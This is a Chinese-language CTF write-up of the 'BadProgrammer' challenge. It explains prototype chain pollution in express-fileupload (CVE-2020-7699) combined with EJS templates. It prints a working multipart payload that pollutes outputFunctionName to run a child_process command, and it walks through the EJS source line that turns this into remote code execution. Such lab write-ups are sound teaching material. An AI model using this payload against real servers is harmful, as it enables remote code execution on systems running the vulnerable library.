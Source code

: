 # 原型链污染

## 攻防世界BadProgrammer

路由扫描出app.js

```js
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.post('/4_pATh_y0u_CaNN07_Gu3ss', (req, res) => {
    res.render('flag.ejs');
});

app.get('/', (req, res) => {
    res.render('index.ejs');
})

app.listen(3000);
app.on('listening', function() {
    console.log('Express server started on port %s at %s', server.address().port, server.address().address);
});
```

查看package.json文件，发现引用express-fileupload版本为1.1.7-alpha.4，此版本存在CVE-2020-7699，原型链污染漏洞。

> 从利用角度说就是`app.use(fileUpload({ parseNested: true }))`开启的情况下,可以通过文件上传，污染一些值,
> 这道题中可以污染的是outputFunctionName, 进而获取shell

payload:
```html
Content-Length: 236
Content-Type: multipart/form-data; boundary=f9ad5c42ff3d78f5b5d3aa7539dc1354

--f9ad5c42ff3d78f5b5d3aa7539dc1354
Content-Disposition: form-data; name="__proto__.outputFunctionName"





x;process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x

--f9ad5c42ff3d78f5b5d3aa7539dc1354--
```

## ==源码分析==---关键部分

```js
if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
源码在拼接js代码
如果将`x;process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x`注入会发生什么: 

`pretend += 'var x;process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x=__append'`
源码中outputFunctionName是空的,**也就是我们在没有改变源码功能的情况下加了一段代码**, 而且源码中最后所有代码都会执行, 从而达到==RCE==
